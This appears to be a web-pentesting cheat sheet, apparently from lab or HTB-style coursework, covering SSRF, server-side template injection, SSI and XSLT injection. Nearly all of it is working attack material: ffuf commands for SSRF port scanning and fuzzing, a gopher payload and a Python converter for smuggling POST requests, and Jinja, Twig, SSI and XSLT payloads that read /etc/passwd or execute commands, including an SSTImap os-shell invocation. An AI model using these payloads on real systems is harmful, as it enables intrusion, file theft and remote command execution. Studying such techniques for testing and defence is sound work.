

## SSRF

>**ℹ️ Info:**
>
>Check for URLs or endpoints where the application gets the data externally from.
>
>To check if something is vulnerable to SSRF we can set up a Netcat listener and point the URL to our system.
>
>To check if the SSRF vulnerability is not blind,  we can make the request to itself.

### SSRF Injection Payloads
| Payload | Description |
|---------|-------------|
| `file:///etc/passwd` | Read a file |

### SSRF Port Scanner
```bash
seq 1 10000 > ports.txt
```

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

### SSRF Directory Fuzzing
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.200.202/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "404 Not Found"
```
>**ℹ️ Info:**
>
>In this case we're looking for .php files since that's what the web uses.
>
>Make sure to use `-fr` to tell ffuf what is valid and what not.

### SSRF Gopher Post Request
If we find a login portal or something needing a POST request, we can use the gopher protocol to send the request.

If we find something like this:
```html
Please Login
	<form action="/admin.php" method="post">
	    <input type="adminpw" name="adminpw" placeholder="Password" required>
	    <input type="submit" value="Login">
	</form>
```

Our POST request would be like this:
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
> ⚠️ **PAY ATTENTION:**
> 
> Make sure to put the correct `Content-Length` and `Content-Type`.

We now need to encode special characters, in particular spaces (`%20`) and newlines (`%0D%0A`) and =(`%3D`)

We'd get something like this:
```http
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

> ⚠️ **IMPORTANT:**
> 
> Since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it.
> 
> In BurpSuite -> Select the request -> Convert Selection -> URL-encode key characters.


Automatic gopher script, needs a file containing the POST request as seen above:
```python
import sys
import urllib.parse

def transform_to_gopher(input_file):
    try:
        with open(input_file, 'r') as file:
            content = file.read().strip()  # Remove trailing newlines
        
        # Split into headers and body
        parts = content.split('\n\n', 1)
        headers = parts[0]
        body = parts[1] if len(parts) > 1 else ""
        
        # Process headers
        header_lines = headers.split('\n')
        processed_lines = []
        
        for i, line in enumerate(header_lines):
            # Special handling for HTTP request line (first line)
            if i == 0:
                method, path, http_ver = line.split()
                encoded_line = f"{urllib.parse.quote(method)}%20{urllib.parse.quote(path)}%20HTTP%2F1.1%0D%0A"
            else:
                # Split header name and value
                if ': ' in line:
                    header_name, header_value = line.split(': ', 1)
                    encoded_line = f"{header_name}:%20{urllib.parse.quote(header_value)}%0D%0A"
                else:
                    encoded_line = urllib.parse.quote(line) + '%0D%0A'
            
            processed_lines.append(encoded_line)
        
        # Process body (if exists)
        encoded_body = urllib.parse.quote(body) if body else ""
        
        # Combine all parts with an extra CRLF before body if body exists
        gopher_content = ''.join(processed_lines)
        if encoded_body:
            gopher_content += '%0D%0A' + encoded_body
        
        # Extract host from headers
        host = "dateserver.htb"  # default
        for line in header_lines:
            if line.lower().startswith('host:'):
                host = line.split(': ', 1)[1].strip()
                break
        
        # Create the gopher URL
        gopher_url = f"gopher://{host}:80/_{gopher_content}"
        
        return gopher_url
    
    except FileNotFoundError:
        print(f"Error: File '{input_file}' not found.")
        sys.exit(1)
    except Exception as e:
        print(f"An error occurred: {str(e)}")
        sys.exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python gopher_converter.py <input_file>")
        sys.exit(1)
    
    input_file = sys.argv[1]
    gopher_url = transform_to_gopher(input_file)
    print(gopher_url)
```

## Server Side Template Injection
>**ℹ️ Info:**
>
>To check if SSTI injection is present, we can use the string `${{<%[%'"}}%\.` to see if an error arises.

To correctly identify what template we're working with we will follow the chart below:


If a payload works, we follow the green arrow, if it doesn't the red one.

> ⚠️ **PAY ATTENTION:**
> 
> Jinja returns `7777777` and Twig returns `49`.

> ⚠️ **IMPORTANT:**
> 
> Rember to full URL-encode the full payload if it doesn't work by default!

### Jinja Payloads

| Payload | Description |
|---------|-------------|
| `{{ config.items() }}` | Obtain the web application's configuration |
| `{{ self.__init__.__globals__.__builtins__ }}` | Dump all available built-in functions |
| `{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}` | Read a file |
| `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` | Execute a command |

### Twig Payloads

| Payload | Description |
|---------|-------------|
| `{{ _self }}` | Information about the current template |
| `{{ ['id'] \| filter('system') }}` | Execute a command |

### SSTIMAP
https://github.com/vladko312/SSTImap
```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

## Server Side Includes
>**ℹ️ Info:**
>
>To check if SSI injection in spresent we can look for typical file extensions that include `.shtml`, `.shtm`, and `.stm`. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.

### SSI Payloads

| Payload | Description |
|---------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |

## XSLT Injection
>**ℹ️ Info:**
>
>To check if XSLT is present we can input a `<` to provoke an error.
>
>We can gather some basic info with the following payload:
>
>```xml
>Version: <xsl:value-of select="system-property('xsl:version')" />
><br/>
>Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
><br/>
>Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
><br/>
>Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
><br/>
>Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
>```

### XSLT Injection Payloads  

| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | Read file |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | Read file |
| `<xsl:value-of select="php:function('system','id')" />` | Execute a command |